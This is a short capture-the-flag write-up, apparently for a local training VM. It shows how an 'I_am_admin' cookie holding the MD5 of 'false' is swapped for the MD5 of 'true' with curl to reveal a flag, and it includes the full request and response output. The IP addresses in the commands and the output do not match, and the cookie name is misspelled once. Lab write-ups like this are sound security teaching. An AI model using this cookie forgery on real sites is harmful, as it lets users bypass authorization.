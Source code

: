 # Cookies

__curl -v -s 'http://192.168.56.101' -o out.file__

## Description
The command can send to url cookies.

## Form Outputs
Then we get the following output.
```
* Rebuilt URL to: http://192.168.56.101/
*   Trying 192.168.99.101...
* TCP_NODELAY set
* Connected to 192.168.99.101 (192.168.99.101) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.99.101
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Mon, 18 Sep 2023 19:41:50 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.5.9-1ubuntu4.29
< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Mon, 18-Sep-2023 20:41:50 GMT; Max-Age=3600
< 
{ [6905 bytes data]
* Connection #0 to host 192.168.99.101 left intact
```

## Flag
Let's convert [I_am_admit](#https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327) from md5. We get __false__. </br>
So what about __true__ ```echo -n 'true' | md5``` -> 'b326b5062b2f0e69046810717534cb09'
When we compare the outputs with cookies true and false weget the next flag.
```
curl -s 'http://192.168.56.101' -o false.html
curl -s --cookie I_am_admin=$(echo -n 'true' | md5) 'http://192.168.56.101' -o true.html 
diff false.html true.html 
```

## Safety
We should learn about cookies and how they can be used to track user activity on a website. </br>
Specifically, you should learn how to use the curl command to send cookies to a URL and how to compare the output of two requests with different cookie values to determine if a flag is present. </br>
Additionally, you should be aware of the potential risks associated with cookies, such as the possibility of them being stolen or used for malicious purposes.